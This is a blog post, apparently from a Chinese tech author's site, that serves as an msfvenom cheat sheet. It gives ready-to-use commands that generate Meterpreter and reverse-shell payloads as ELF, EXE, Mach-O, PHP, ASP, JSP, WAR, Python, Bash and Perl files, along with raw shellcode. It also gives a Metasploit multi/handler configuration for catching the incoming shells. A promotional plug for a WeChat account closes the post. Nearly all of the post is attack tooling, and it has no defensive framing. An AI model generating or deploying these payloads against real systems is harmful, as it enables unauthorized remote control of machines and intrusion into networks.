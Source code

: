 ```yaml
---
layout: post
category: binghe-code-hack
title: Msfvenom生成各类Payload命令
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Msfvenom生成各类Payload命令
lock: need
---
```


# Msfvenom生成各类Payload命令

Often one of the most useful (and to the beginner underrated)  abilities of Metasploit is the msfpayload module. Multiple payloads can  be created with this module and it helps something that can give you a  shell in almost any situation. For each of these payloads you can go  into msfconsole and select exploit/multi/handler. Run ‘set payload’ for  the relevant payload used and configure all necessary options (LHOST,  LPORT, etc). Execute and wait for the payload to be run. For the  examples below it’s pretty self explanatory but LHOST should be filled  in with your IP address (LAN IP if attacking within the network, WAN IP  if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

```
msfvenom -l
```

Binaries

**Linux** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

Web Payloads

**PHP** 

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php



cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Scripting Payloads

**Python** 

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash** 

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl** 

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to  valid parameters. Msfvenom will output code that is able to be cut and  pasted in this language for your exploits.

**Linux Based Shellcode** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to  be in a position to receive your incoming shells. Handlers should be in  the following format.

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
